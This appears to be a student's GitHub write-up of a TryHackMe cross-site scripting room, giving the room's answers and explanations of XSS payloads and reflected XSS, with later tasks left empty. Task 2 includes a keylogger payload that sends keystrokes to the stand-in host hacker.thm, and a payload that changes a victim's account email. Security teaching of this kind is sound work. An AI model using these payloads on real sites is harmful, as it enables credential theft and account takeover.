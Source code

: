 ![Background](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/03376575e888fd097280c51469c29fbc.png)

<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/c1c509a263e7a42bece2f0b77fd1ba1b.png" width="200" height="200" align="left">

# Cross-Site Scripting

**Learn how to detect and exploit XSS vulnerabilities, giving you control of other visitor's browsers.**

**If you want to check out the room [click here](https://tryhackme.com/room/xssgi)**

---

<br>

**Table of Contents**

- [Cross-Site Scripting](#cross-site-scripting)
  - [Task 1 Room Brief](#task-1-room-brief)
  - [Task 2 XSS Payloads](#task-2-xss-payloads)
  - [Task 3 Relfected XSS](#task-3-relfected-xss)
  - [Task 4 Stored XSS](#task-4-stored-xss)
  - [Task 5 DOM Based XSS](#task-5-dom-based-xss)
  - [Task 6 Blind XSS](#task-6-blind-xss)
  - [Task 7 Perfecting your payload](#task-7-perfecting-your-payload)
  - [Task 8 Practical Example (Blind XSS)](#task-8-practical-example-blind-xss)

## Task 1 Room Brief

**What does XSS stand for?**

    Cross-Site Scripting

## Task 2 XSS Payloads

**Which document property could contain the user's session token?**

    document.cookie

**Which JavaScript method is often used as a Proof Of Concept?**

    alert

btoa()

: Is a function that accepts javascript string as an parameter and base64 encodes it in order to make it safe for a browser to transport. This along with the `document.cookie` parameter an attacker can steal a victims cookie session in order to login as that user without knowing the credentials.

📰 **Note:** Javascript can be used in order to set a keylogger on the victim site thus giving the attacker the chance to passively gather user keystrokes with the goal of obtaining credentials. An example line for a XSS keylogger may look like this:

```js
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

Business Logic attacks

: These are flaws in the original design and implementation of the web app that allow an attaker to be able to exectue unintended behavior. This can be used to essentially put the attacker as a Man In The Middle between the user and the application itself. An example of this in terms of XSS would be as follows:

```js
<script>user.changeEmail('attacker@hacker.thm');</script>
```

Where the `user.changeEmail()` would be a function within the application that would enable the attaker to change the official email of the site to one of their control thus potentially posing as a help desk or customer support for the user and social engineering the victim into divulging information/credentials giving access over the victims account.

## Task 3 Relfected XSS

**Where in an URL is a good place to test for reflected XSS?**

    Parameters

Although there are different types of XSS attacks, **Reflected** XSS occurs when a malicious script is, as the name suggests, reflected off a web app to the victim browser through a link in order to activate the attack. This can be used to acquire the victims session cookie/token, this type of behavior can be seen when a web app processes the data in an unsafe way and reflects the parameter in it's response back to the user as shown below.

Original unsafe URL:

```http
https://insecure-website.com/search?term=gift

The response from the web app to this link would look like this:

<p>You searched for: gift</p>
```

Now, when a malicious actor injects their script into the parameter field it can look like this:

```http
https://insecure-website.com/search?term=<script>/*+Bad+stuff+here...+*/</script>

The response from the web app to this link would look like this:

<p>You searched for: <script>/* Bad stuff here... */</script></p>
```

📰 **Note:** This sort of attack can be performed in numerous ways and creativity is key but it vulnerability will need modification depending on what sort of protection is in place on the web app itself so keep a lookout for any details that might give it away.
## Task 4 Stored XSS

## Task 5 DOM Based XSS

## Task 6 Blind XSS

## Task 7 Perfecting your payload

## Task 8 Practical Example (Blind XSS)
